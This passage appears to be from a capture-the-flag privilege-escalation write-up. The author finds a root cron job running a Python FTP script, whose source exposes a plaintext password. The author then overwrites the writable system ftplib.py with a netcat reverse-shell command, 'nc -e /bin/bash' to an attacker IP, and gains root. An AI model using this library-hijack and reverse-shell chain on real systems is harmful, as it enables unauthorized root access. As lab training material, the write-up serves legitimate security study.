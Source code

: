 ```
$ ./pspy32
...
2021/08/08 02:42:01 CMD: UID=0    PID=2460   | /bin/sh -c /usr/bin/python2.7 /opt/ftpclient/ftpclient.py 
...
```
### ftpclient
```
$ cd /opt/ftpclient/
$ ls -la
total 16
drwxr-x--- 2 root hades 4096 Apr  6  2020 .
drwxr-xr-x 3 root root  4096 Jul 20  2019 ..
-rw-r--r-- 1 root hades  262 Apr  6  2020 ftpclient.py
-rw-r--r-- 1 root hades  251 Aug  8 02:45 statuscheck.txt
$ cat ftpclient.py 
import ftplib

ftp = ftplib.FTP('127.0.0.1')
ftp.login(user='hades', passwd='PTpZTfU4vxgzvRBE')

ftp.cwd('/srv/ftp/')

def upload():
    filename = '/opt/client/statuscheck.txt'
    ftp.storbinary('STOR '+filename, open(filename, 'rb'))
    ftp.quit()

upload()
```
### ftplib
```
$ cd /usr/lib/python2.7/
$ ls -l ftplib.py
-rwxrw-r-- 1 root gods 37755 Sep 26  2018 ftplib.py
$ groups hades
hades : hades gods
$ echo "
> import os
> os.system('nc -e /bin/bash 192.168.109.128 9090')" > ftplib.py
$ cat ftplib.py
import os
os.system('nc -e /bin/bash 192.168.109.128 9090')
```
### ftpclient
```
$ cd /opt/ftpclient/
$ ./ftpclient.py
-bash: ./ftpclient.py: Permission denied
```
```
$ nc -lvp 9090            
listening on [any] 9090 ...
connect to [192.168.109.128] from symfonos.local [192.168.109.133] 54918
id
uid=0(root) gid=0(root) groups=0(root)
```
